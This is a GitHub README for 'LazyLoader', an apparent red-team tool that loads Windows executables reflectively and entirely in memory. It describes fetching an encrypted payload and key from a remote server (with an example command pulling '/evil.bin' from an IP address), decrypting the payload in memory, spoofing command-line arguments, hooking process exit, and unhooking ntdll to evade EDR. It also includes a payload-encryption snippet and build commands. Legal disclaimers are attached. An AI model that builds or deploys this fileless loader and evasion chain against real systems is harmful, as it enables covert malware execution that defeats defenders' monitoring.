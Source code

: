 # LazyLoader — Stealthy Reflective PE Loader for Windows
Disclaimer: This tool is intended for educational purposes and authorized red team operations only. Do not use on systems you do not own or have explicit permission to test. 

## 🧩 Overview
LazyLoader is a sophisticated, in-memory Windows PE (Portable Executable) loader that:

- Downloads an AES-256 encrypted PE file and its decryption key from a remote HTTP server.
- Decrypts the payload in memory using Windows CryptoAPI.
- Reflectively maps and relocates the PE into the current process.
- Repairs the Import Address Table (IAT) with optional API hooking to spoof command-line arguments and prevent process exit.
- Executes the payload in a new thread.
- Optionally unhooks ntdll.dll by restoring its .text section from a clean process (e.g., notepad.exe) to evade EDR/userland hooks.
- Designed for stealth, LazyLoader leaves no trace on disk and hides its execution context from command-line inspection tools.

## ⚙️ Features
- ✅ Remote Payload Fetching
Uses WinHTTP to securely download encrypted PE and key files from a remote server.

## ✅ AES-256 Decryption
- Leverages Windows CryptAcquireContext, CryptCreateHash, and CryptDecrypt for secure in-memory decryption.

## ✅ Reflective PE Loading

- Parses PE headers and sections.
- Allocates memory at preferred or relocated base.
- Copies headers and sections.
- Repairs IAT with dynamic GetProcAddress.

## ✅ Command-Line Masquerading
Spoofs:

- GetCommandLineA/W
- __p___argv
- __p___wargv
- __p___argc
- __getmainargs
- __wgetmainargs

Prevents detection via process argument inspection.

- ✅ **Exit Function Hooking**
Hooks exit, _exit, ExitProcess, etc., to redirect termination to ExitThread(0) — keeping the host process alive.

- ✅ **EDR Evasion via NTDLL Unhooking**
Optionally spawns a suspended notepad.exe, reads clean ntdll.dll from its memory, and restores hooked .text sections in the current process.

- ✅ **No Disk Artifacts**
Everything runs in memory — no temporary files written.

## 🚀 Usage
```cmd
LazyLoader.exe <Host> <Port> <EncryptedPEPath> <KeyPath>
```
### Example
```cmd
LazyLoader.exe 192.168.1.100 8080 /evil.bin /key.bin
```
### This will:

- Connect to http://192.168.1.100:8080/evil.bin and download the encrypted payload.
- Download the key from http://192.168.1.100:8080/key.bin.
- Decrypt the payload using AES-256.
- Spoof command-line to appear as "whatEver".
- Load and execute the PE reflectively.

## 🔐 Encryption Requirements
The payload must be encrypted with AES-256 in ECB mode (or compatible with Windows CryptDecrypt defaults).

Example Python encryption snippet:

```python
from Crypto.Cipher import AES
import hashlib

key = b"your-32-byte-key-here-------------"  # Must be 32 bytes
data = open("payload.bin", "rb").read()
cipher = AES.new(key, AES.MODE_ECB)
encrypted = cipher.encrypt(data.ljust((len(data) // 16 + 1) * 16, b'\x00'))  # PKCS#7-style padding

with open("evil.bin", "wb") as f:
    f.write(encrypted)
```
🔍 Note: LazyLoader uses SHA-256 to hash the key file contents before deriving the AES key — ensure your encryption matches this behavior. 

## 🧪 Compilation
Requirements
x86_64-w64-mingw32-gcc
Libraries: WinHttp, Crypt32, Psapi
Build with x86_64-w64-mingw32-gcc
cmd

x86_64-w64-mingw32-gcc -o loader.exe main.c -lwinhttp -lcrypt32 -lpsapi 

## 🛡️ Detection Evasion Techniques

### LoadLibrary
— avoids module enumeration.
IAT Repair + Hooking
Spoofs command-line and argv to hide true intent.
Exit Hooking
Redirects
ExitProcess
to
ExitThread
— host process stays alive.
NTDLL Unhooking
Restores clean
.text
from external process — defeats userland hooks.
No Disk Writes
Entire execution is memory-resident.

## 📜 License GPLv3
Educational & Red Team Use Only. Not for malicious exploitation.

## 📬 Contact / Contribution
For bugs, suggestions, or contributions — open an issue or submit a PR.

Author: grisun0 - LazyOwn RedTeam
Version: release/v0.0.1
Year: 2025 

## ⚠️ Legal Notice
This software is for authorized penetration testing and research purposes only. Misuse of this tool can result in criminal prosecution. The author(s) assume no liability and are not responsible for any misuse or damage caused by this program.

✅ Stay LazyOwn. Stay Stealthy.

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
